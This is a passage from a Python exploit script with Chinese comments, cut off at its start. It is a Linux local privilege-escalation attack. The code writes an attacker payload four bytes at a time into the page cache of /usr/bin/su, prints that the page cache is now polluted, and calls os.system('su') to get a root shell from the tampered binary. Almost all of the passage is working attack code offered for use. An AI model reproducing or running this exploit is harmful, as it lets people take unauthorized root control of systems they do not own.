        four_bytes_chunk = raw_payload[current_offset:current_offset+4]
        
        # 执行漏洞注入
        decrypt_and_taint_page(target_fd, current_offset, four_bytes_chunk)
        
        current_offset += 4
        
    print("[+] 数据注入完毕！系统 Page Cache 已被彻底污染")
    os.close(target_fd)
    
    # 4. 执行提权：调用已经被我们在内存中“魔改”过的 su
    # 此时，内核在读取 /usr/bin/su 时，会直接读取并执行内存中被污染的脏页，瞬间切入 root shell
    print("[*] 正在执行被污染的二进制文件触发提权...")
    os.system("su")
```python
